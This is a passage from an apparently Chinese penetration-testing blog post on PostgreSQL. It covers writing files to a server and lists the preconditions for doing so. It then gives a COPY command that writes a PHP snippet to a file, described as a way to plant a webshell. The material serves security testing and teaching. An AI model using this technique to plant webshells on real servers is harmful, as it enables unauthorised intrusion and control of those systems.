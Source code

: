 [![](assets/1710209150-150de971707943b21f3f1b2128431318.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/10.png)

- - -

# [](#postgresql-%E5%86%99%E6%96%87%E4%BB%B6)PostgreSQL 写文件

**利用条件**

-   拥有网站路径写入权限
-   知道网站绝对路径

**方法 1 COPY**

COPY 命令可以用于表和文件之间交换数据，这里可以用它写 webshell

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>COPY (select '<?php phpinfo();?>') to '/tmp/1.php';<br>``` |

[![](assets/1710209150-b2b8779e3e490fc1b7316948b4a2cdb6.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/1.png)
